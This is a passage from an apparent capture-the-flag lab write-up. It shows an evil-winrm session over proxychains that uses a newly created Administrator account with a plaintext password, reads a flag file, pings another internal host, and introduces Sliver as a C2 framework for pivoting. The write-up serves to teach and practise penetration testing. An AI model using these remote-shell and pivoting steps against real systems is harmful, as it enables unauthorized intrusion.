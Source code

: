 ```
```

We can now access the machine using the newly created Administrator account and retrieve the second flag!

```
proxychains -q evil-winrm -i Southern-Tower.async.empire -u 'gatari' -p 'P@ssw0rd'           
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\gatari\Documents> cat C:\Users\Administrator\desktop\FLAG2.txt
93e8cb96c86dc1d017e6cc07a0ba26af

```

## Flag 3

### Double Pivots

From this machine, you'll find that you now have access to additional machines, including `Western-Outpost`.

```
*Evil-WinRM* PS C:\Users\gatari\Documents> ping Western-Outpost.async.empire -n 1

Pinging Western-Outpost.async.empire [10.2.20.21] with 32 bytes of data:
Reply from 10.2.20.21: bytes=32 time<1ms TTL=127

Ping statistics for 10.2.20.21:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

### Command & Control (C2)

By this point, you'll notice the network is heavily segmented with several subnets, which requires extensive pivoting. To simplify this, I'll be using a C2 framework for pivoting, as I prefer not to rely on tools like Chisel.

In my opinion, the most stable and reliable open-source C2 frameworks are [meterpreter](https://github.com/rapid7/metasploit-framework) and [sliver](https://github.com/BishopFox/sliver). For this writeup, I'll be using `Sliver`, as there is already plenty of documentation for `Meterpreter`, and `Sliver` is generally less commonly used.
